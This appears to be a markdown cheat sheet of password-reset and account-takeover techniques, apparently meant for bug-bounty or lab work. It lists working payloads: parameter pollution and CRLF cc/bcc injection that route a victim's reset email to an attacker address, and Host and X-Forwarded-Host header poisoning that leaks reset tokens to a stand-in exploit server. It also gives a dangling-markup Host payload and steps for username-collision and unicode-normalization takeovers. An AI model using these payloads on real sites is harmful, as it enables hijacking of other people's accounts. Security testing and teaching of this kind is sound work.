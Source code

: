 # Password Reset Via Email Parameter

```
## parameter pollution
email=victim@mail.com&email=hacker@mail.com

## array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

## carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

## separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```

# Password Reset Token Leak Via Referrer

1) Request password reset to your email address
2) Click on the password reset link
3) Don't change password
4) Click any 3rd party websites(eg: Facebook, twitter)
5) Intercept the request in Burp Suite proxy
6) Check if the referer header is leaking password reset token.

# Standard HTTP HEADER ATTACKS

1) Use (Intercept first) `Host: arbitrary-exploit-server.com`, `X-Forwarded-Host: arbitrary-exploit-server.com`
2) Look for `https:/arbitrary-exploit-server.com/reset-password?token=TOKEN`

# Leaking Password Reset Token in Response

1) Trigger a password reset request to the email.
2) Inspect the `Server Response` and search for ResetToken - Maybe it is stored in response also.
3) Then use the token in an URL like https://arbitrary.com/reset?resetToken={token}&email={email}.

# Password Reset Via Username Collision

1) Register username identical to the victim's username: "admin ", " admin", " admin ";
2) Request a password reset with your malicious username.
3) Use the token sent to your email and reset the victim password.

# Account takeover due to unicode normalization issue

Try to use same emails, but use a little different symbols, that can be converted the same:

    Victim account: demo@gmail.com
    Attacker account: demⓞ@gmail.com

# If Host header has the problem of not being tested after validation

```
Host: YOUR-LAB-ID.web-security-academy.net:'<a href="//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/?
```

# Stay-logged-in + Notification cookie (using comments)

https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-authentication-bypass-via-encryption-oracle

# The Host, Referrer, and Origin headers are simultaneously changed to attacker.com.
